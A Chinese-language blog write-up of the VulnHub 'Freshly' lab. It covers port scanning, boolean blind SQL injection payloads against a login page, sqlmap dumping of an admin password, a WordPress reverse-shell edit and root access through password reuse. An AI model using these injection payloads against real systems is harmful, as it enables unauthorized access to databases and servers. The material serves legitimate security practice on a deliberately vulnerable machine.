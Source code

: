 +++
title = '0x047 Freshly'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台也是用virtualbox打开的

# 端口扫描

![](/vulnhub_img/WEBRESOURCEddd932a1de8a3abffb95ac78f639055cimage.png)

![](/vulnhub_img/WEBRESOURCE455c2009ebbeffef0badbc63c9e411beimage.png)

![](/vulnhub_img/WEBRESOURCEb5a225c51f1475c5571571ef168b0a0eimage.png)

# 渗透

挨个端口来看吧：

首先是80：

![](/vulnhub_img/WEBRESOURCEaf2dc3f875e6e0852684635749191dedimage.png)

![](/vulnhub_img/WEBRESOURCEe9d96b041bbbd8fa1adecf204148e71bimage.png)

![](/vulnhub_img/WEBRESOURCE426dfb4b221c8e7b5c4e260fb022913bimage.png)

疑似线索：

tumblr_mdeo27ZZjB1r6pf3eo1_500.gif

![](/vulnhub_img/WEBRESOURCE85c909c522338f864d15ae38a341ae82image.png)

login.php存在sql注入，但是这种登录框一般是盲注，这里是布尔盲注，手动可能有点麻烦：

![](/vulnhub_img/WEBRESOURCE9b8cdf0b7df9ffa9511a62a4c8558651image.png)

443：

![](/vulnhub_img/WEBRESOURCEa69a016e339c23c326b63476710628faimage.png)

发现wordpress了，先搞wordpress：

插件：

![](/vulnhub_img/WEBRESOURCE24a07bb38b6177f4fe49dab52897ee52image.png)

用户：

![](/vulnhub_img/WEBRESOURCE8d0f76c1ef4f65a026bd8ebfed16a635image.png)

通过插件查找漏洞，找到两个可能的：

![](/vulnhub_img/WEBRESOURCEa8cb12327af8643e93b29ea6926053c1image.png)

![](/vulnhub_img/WEBRESOURCE37012679a35cd23b7d013b952dd2e1afimage.png)

8080端口：

![](/vulnhub_img/WEBRESOURCE72cdc318574904d05094929963e64f8bimage.png)

![](/vulnhub_img/WEBRESOURCEc8526fe0902d1c5354cb480e2e84757bimage.png)

![](/vulnhub_img/WEBRESOURCEcc07cb0b3e0f442396c7e0ae50303ae0image.png)

只有80端口可以，看样子得写脚本了：

写了半天，发现没有burp好使：

# 测数据库长度：

payload: 

admin 'or length(database())=5#

数据库长度为5

![](/vulnhub_img/WEBRESOURCE9451203a7dfb7dc8998c34dbad310911image.png)

![](/vulnhub_img/WEBRESOURCE2b1000252161856330d936f4f255af90image.png)

# 测试数据库名：LOGIN

substr(database(),1,1)=‘a’

第一个字符：L

admin 'or substr(database(),1,1)='L'#

![](/vulnhub_img/WEBRESOURCE9813f255e2682c0eded417d6e2a253f1image.png)

burp操作如下：

![](/vulnhub_img/WEBRESOURCEcc860519618c0c130e98d2759b9f8dfaimage.png)

![](/vulnhub_img/WEBRESOURCE07604d6e128d798f6982a360439ec7b3image.png)

![](/vulnhub_img/WEBRESOURCE4d8ac791295b8205584777c0f08b145eimage.png)

第二个字符：O

admin 'or substr(database(),2,1)='O'#

![](/vulnhub_img/WEBRESOURCEbee5d5d856578921f207ff645aa4762bimage.png)

第三个字符：G

![](/vulnhub_img/WEBRESOURCE9f13afb65f172ce693892120c4eae91cimage.png)

第四个字符：I

![](/vulnhub_img/WEBRESOURCEfb5a2d35c0daa10a2a3e0ad51c448832image.png)

第五个字符：N

![](/vulnhub_img/WEBRESOURCE6105c1e413376f47ea06d82bc71923ebimage.png)

# 测试表数量

(select COUNT(*) from information_schema.tables where table_schema='login')=2

![](/vulnhub_img/WEBRESOURCE902e80227fdc050c68b006504de74828image.png)

# 测第一张名的长度

length(substr((select table_name from information_schema.tables where table_schema='login' limit 0,1),1))=9#

第一张表长度9：

![](/vulnhub_img/WEBRESOURCE684889d4200cc64011a5e0bd2c8447fcimage.png)

第二张表长度5：

length(substr((select table_name from information_schema.tables where table_schema='login' limit 1,1),1))=5#

![](/vulnhub_img/WEBRESOURCE9ef164875d785f3826c9437bb46c78e2image.png)

前面发现一个问题，使用字符串进行对比可能导致大小写的问题

ascii(substr((select table_name from information_schema.tables where table_schema='login' limit 0,1),1,1))>97

算了，我废了，我只能被迫用sqlmap了，找个时间我再写个脚本吧：

![](/vulnhub_img/WEBRESOURCEbd861945a5451166eac242c1d824f7feimage.png)

SuperSecretPassword | admin

进入后台，改php文件反弹shell:

![](/vulnhub_img/WEBRESOURCE5b6f13dd2191d534f40f4b4b6e458ecfimage.png)

# 提权

root密码和上面的一样：

SuperSecretPassword

![](/vulnhub_img/WEBRESOURCEeaea5ad29598b8b3d7b570e159367b49image.png)

稍后研究一下布尔盲注的脚本：